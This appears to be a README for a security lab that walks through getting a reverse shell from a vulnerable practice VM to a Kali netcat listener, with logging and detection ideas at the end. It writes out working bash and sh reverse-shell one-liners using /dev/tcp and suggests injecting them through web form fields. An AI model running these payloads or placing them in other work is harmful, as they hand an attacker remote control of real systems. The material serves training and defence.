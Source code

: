 # 🐚 Reverse Shell - Kali Listener

This scenario demonstrates establishing a reverse shell from a vulnerable machine (e.g., Metasploitable or DVWA) to a Kali Linux listener. This is a common post-exploitation technique used to gain control over a compromised system.

## 🎯 Goal
- Exploit a vulnerable web service or app to spawn a reverse shell
- Connect back to Kali Linux for interactive control

## 🛠️ Tools Used
- Kali Linux (listener)
- Metasploitable or DVWA (victim)
- Netcat
- Web browser or pre-injected payload

## 🔍 Steps

1. Start a listener on Kali:
   ```bash
   nc -lvnp 4444
   ```

2. On the victim machine, run:
   ```bash
   bash -i >& /dev/tcp/<KALI_IP>/4444 0>&1
   ```

3. If delivered via a web form or payload:
   - Inject the command into an upload or text field
   - Or use a file inclusion/command injection vuln

4. On Kali, verify shell connection:
   - Run `whoami`, `uname -a`, `pwd` to confirm access

## 📝 Notes
- Adjust firewall or security settings if VM blocks reverse traffic
- Try alternate payloads if needed:
   ```bash
   /bin/sh -i >& /dev/tcp/<KALI_IP>/4444 0>&1
   ```

## 📊 Log & Detection Ideas
- Monitor Apache logs for suspicious input
- Watch for outbound connections to non-standard ports
- Use Wireshark to capture shell traffic for analysis

## 🧠 Learning Points
- Understand the mechanics of reverse shell attacks
- Practice listening, payload creation, and shell stability
- Learn what they look like in logs and traffic captures
